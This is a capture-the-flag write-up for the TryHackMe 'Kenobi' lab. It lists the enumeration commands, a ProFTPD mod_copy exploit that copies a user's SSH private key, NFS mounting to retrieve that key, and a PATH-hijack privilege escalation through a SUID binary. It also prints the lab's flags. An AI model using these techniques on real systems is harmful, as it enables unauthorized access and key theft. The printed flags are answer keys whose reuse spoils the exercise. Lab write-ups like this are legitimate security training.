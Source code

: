 # TryHackMe - Kenobi Room Write-up (06/26/25)

## 👤 User: sivaaditya

## 💻 IP: 10.10.200.231

---

## 🧩 Task 1: Initial Scanning

### Q: How many ports are open?

**A:** 7

### Nmap Command Used:

```bash
sudo nmap -vv -sV -oN nmap/initial.txt 10.10.200.231
```

### Open Ports:

```
21/tcp - ProFTPD 1.3.5
22/tcp - OpenSSH 7.2p2
80/tcp - Apache 2.4.18
111/tcp - rpcbind
139/tcp - Samba smbd 3.X - 4.X
445/tcp - Samba smbd 3.X - 4.X
2049/tcp - nfs
```

---

## 🧩 Task 2: Enumerating Shares

### Q: How many shares found?

**A:** 3

### Nmap Share Enum Command:

```bash
sudo nmap -p 445 -Pn --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.200.231 -oN nmap/smbshares.txt
```

### Found Shares:

* `anonymous`
* `print$`
* `IPC$`

### Q: What file can you see in the share?

**A:** `log.txt`

### FTP Port?

**A:** 21

### NFS Mount?

**A:** `/var`

```bash
sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.200.231 -oN networkenum.txt
```

---

## 🧩 Task 3: Exploiting ProFTPD mod\_copy

### Q: FTP Version?

**A:** 1.3.5

### Q: Exploits for ProFTPD 1.3.5?

**A:** 4

### Exploit Used:

* `SITE CPFR /home/kenobi/.ssh/id_rsa`
* `SITE CPTO /var/tmp/id_rsa`

### Mount NFS & Access Private Key:

```bash
sudo mkdir -p /mnt/kenobiNFS
sudo mount 10.10.200.231:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS/tmp
cp /mnt/kenobiNFS/tmp/id_rsa ~/kenobi_id_rsa
chmod 600 ~/kenobi_id_rsa
ssh -i ~/kenobi_id_rsa kenobi@10.10.200.231
```

### Q: Kenobi's User Flag?

**A:** `d0b0f3f53b6caa532a83915e19224899`

---

## 🧩 Task 4: Privilege Escalation (PATH Hijack)

### SUID Binaries:

* `/usr/bin/menu` (Suspicious)

### Q: How many options does menu show?

**A:** 3

### Exploitation Steps:

```bash
echo /bin/sh > /tmp/curl
chmod +x /tmp/curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

### Q: Root Flag?

**A:** `177b3cd8562289f37382721c28381f02`

---

## ✅ Summary

* ✔ Enumerated services (FTP, Samba, NFS)
* ✔ Exploited ProFTPD mod\_copy to copy SSH key
* ✔ Mounted NFS to exfil key and SSH as kenobi
* ✔ PrivEsc via PATH hijack in `/usr/bin/menu`
* ✔ Rooted the box 💀

---

## 🔗 Room Link:

[TryHackMe: Kenobi](https://tryhackme.com/room/kenobi)

## 🚀 Skills Used:

* Enumeration (nmap, smbclient, rpc, nfs)
* Exploitation (ProFTPD mod\_copy)
* SSH Key Abuse
* PATH Hijack in SUID Binary

---

🛡️ *Write-up by sivaaditya | Date: 06/26/25*

---
